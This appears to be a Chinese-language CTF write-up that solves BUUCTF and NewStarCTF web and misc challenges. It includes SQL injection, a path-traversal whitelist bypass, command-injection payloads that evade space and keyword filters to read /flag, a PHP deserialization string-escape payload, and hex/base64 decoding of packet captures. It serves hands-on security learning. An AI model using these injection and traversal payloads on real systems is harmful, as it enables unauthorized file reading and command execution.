未来怎么又可期了

<!--more-->

Web

[极客大挑战 2019]EasySQL



数据交互点明显在页面上。验证SQL语句的闭合方式。

判断出来为单引号。

尝试使用万能密码。



成功 `flag{6ff105e8-e7ac-4cd0-9f14-14d8f41db6db}`

[极客大挑战 2019]Havefun


页面上没有什么有用的信息。
查看一下前端：


尝试传入cat=dog



成功 `flag{9b385537-e339-4d47-ac68-10fcc3c9217c}`

[HCTF 2018]WarmUp


页面同样是没有什么有用的信息。

查看前端源码：



里面提到了source.php，那就前往source.php看看



出现了php源码，里面提到了还有一个hint.php，前往hint.php



提示flag的文件名是ffffllllaaaagggg。

回头查看source.php的信息

* `$whitelist = ["source"=>"source.php","hint"=>"hint.php"];`: 这是一个白名单数组，只有数组中的文件名才被允许访问。
* `if (! isset($page) || !is_string($page))`: 检查 `$page` 变量是否已设置，并且确保它是一个字符串。
* `if (in_array($page, $whitelist))`: 检查 `$page` 是否直接在白名单数组中。
* `$_page = mb_substr($page, 0, mb_strpos($page . '?', '?'))`: 这行代码试图去除查询字符串之后的部分，只留下文件名。
* `if (in_array($_page, $whitelist))`: 再次检查处理后的文件名是否在白名单中。
* `$_page = urldecode($page)`: 对 `$page` 进行 URL 解码，以防有编码过的字符。
* `echo "you can't see it"`: 如果文件不在白名单中，输出这个信息。
* `include $_REQUEST['file']`: 如果文件检查通过，包含并执行该文件。

一共进行了四次过滤，因此构建 `http://d4284bb3-a9a4-46be-9050-f86dd118bdb6.node5.buuoj.cn:81/source.php?file=hint.php?/../../../../ffffllllaaaagggg`

成功。`flag{8a16c171-c3a7-4dc0-8e6f-9d1892970174}`

[GXYCTF2019]Ping Ping Ping


看起来应该是一个指令注入
界面提示传入ip，先尝试正常使用

正常
指令注入可以使用 `&& || ；`间隔开。`&&`的含义是：如果前面的指令执行成功则执行后面的指令：`a&&b  a执行成功后则执行b`。`||`的含义是：如果前面的指令执行失败后则执行后者：`a||b a执行失败后才执行b`。`；`的含义是：前后指令按顺序执行：`a；b  先执行a再执行b`。
基于以上信息，构建 `?ip=127.0.0.1;whoami`

注入成功。

构建语句为 `/?ip=127.0.0.1;ls`查看当前目录下的文件。



发现 `flag.php`

构建语句 `/?ip=127.0.0.1;cat%20flag.php`

~~不给就不给怎么还骂人~~

`%20 `被过滤，用 `$IFS`代替空格，构建 `/?ip=127.0.0.1;cat$IFS$1flag.php`。里面$1代表传入的第一个参数，也就是 `flag.php`。

~~怎么又骂人~~

flag也被过滤。尝试了多种间隔符都没有解决。

转换思路，看看 `index.php`里面有什么东西。构建 `/?ip=127.0.0.1;cat$IFS$1index.php`



里面提示了关于过滤的规则。

* 如果 `$ip` 中包含空格，输出 "fxck your space!" 并终止执行。
* 如果 `$ip` 中包含字符串 "bash"，输出 "fxck your bash!" 并终止执行。
* 如果 `$ip` 中包含字符串 "flag"（不区分大小写），输出 "fxck your flag!" 并终止执行。

那么尝试拆解一下flag `/?ip=127.0.0.1;b=lag;cat$IFS$1f$b.php`

没有回显，但是没有报错 ~~开始怀疑人生~~

然后不知道经过多长时间才发现flag在F12里



成功。`flag{38db704f-52e3-4eb2-b399-78fd63d72d8c}`

[ACTF2020 新生赛]Exec

一眼指令注入。

先尝试正常操作。

没什么问题，开始加引号分离指令。



尝试查看当前目录下的文件。

发现只有index.php

尝试cat一下index.php里的内容



应该就是当前的页面

用 `ls -a`查看有没有隐藏的文件

没有，于是考虑用 `ls ../`查看上层文件



再往上





发现了flag

再往上返回的结果就完全一样了，说明flag所在的位置在最顶层目录中，于是构建 `127.0.0.1;cat /flag`

成功。`flag{63e5105c-9bcf-4910-96d0-559eb4e18961}`

[NewStarCTF 2023 公开赛道]逃

从 `unserialize`能看出来是典型的反序列化漏洞。

先把源码搞下来，随便传入一个字符 `zz`，并把它序列化。



得到序列化后的结果



其中数字代表长度，引号内代表具体的值。在这个代码中可以看出来里面设计了一个waf，它把输入的 `bad`全部换成 `good`，那就存在了长度和值的差异，从而造成逃逸。

即每输入一个 `bad`都会被替换成 `good`，也就代表着会往后推移一个字符。在不考虑whoami的情况下， `$key`后面有19个字符，也就是 `$key`里需要传入19个 `bad`就可以完成逃逸。

后面再把whoami换成希望执行的指令，前面的数字转化成对应的值，并增加对应的bad即可。

于是构建
`/?key=badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad%22;s:3:%22cmd%22;s:5:%22ls%20-a%22;})`
以查看当前目录下的所有文件。

只有 `index.php`，再往上查看 
`/?key=badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:6:"ls%20../";}`



再往上查看
 `/?key=badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:9:"ls%20../../";}`



这里需要比上个命令多4个bad，因为ls命令长度超过了10，变成了两位数。
`/?key=badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:12:"ls%20../../../";}`



发现了flag。构建 
`/?key=badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:9:"cat /flag";}`



成功。`flag{1bf358c1-faef-4ecb-ba6a-7db4e1f2a434}`

Misc

[NewStarCTF 公开赛赛道]Whats HTTP



过滤出http报文。



因为如果回执报文是404的话，报文长度一定都是一样的，所以把过滤后的报文按顺序排列，着重查看状态码为200的报文。或者直接筛选出状态码为报文 `http.response.code == 200`


发现了一个长度异常的报文，经过查看请求报文发现是get了sssssercet，看起来是有用的信息



提取出回执的data
`4e6a5932597a59784e6a6333596a4d304e6a597a4d7a4d7a4d7a597a4e444d354e6a517a4d444d7a4d7a41324d7a4d324d7a637a4e7a4d344d7a517a4d6a4d324d7a6b7a4e7a4d784e6a497a4e544d304e6a51324e444d334d7a49324e54597a4e6a55335a413d3d`

一眼hex。处理后得到
`NjY2YzYxNjc3YjM0NjYzMzMzMzYzNDM5NjQzMDMzMzA2MzM2MzczNzM4MzQzMjM2MzkzNzMxNjIzNTM0NjQ2NDM3MzI2NTYzNjU3ZA==`

一眼base64。处理后得到
`666c61677b34663333363439643033306336373738343236393731623534646437326563657d`

又是hex。
`flag{4f33649d030c6778426971b54dd72ece}`

完成。
`flag{4f33649d030c6778426971b54dd72ece}`

[NewStarCTF 2023 公开赛道]流量！鲨鱼！


筛选出http报文


发现了一个奇怪的报文: 
`Wm14aFozdFhjbWt6TldnMGNtdGZNWE5mZFRVelpuVnNYMkkzTW1FMk1EazFNemRsTm4wSwo=`



查看一下对应的请求报文



请求报文是在控制台注入了linux命令，是用base64编码以base64的编码格式输出ffffllllllll11111144444GGGGGG里的内容。实质上也就是对ffffllllllll11111144444GGGGGG的内容作两次base64加密。

完成。`flag{Wri35h4rk_1s_u53ful_b72a609537e6}`

[NewStarCTF 2023 公开赛道]游戏高手

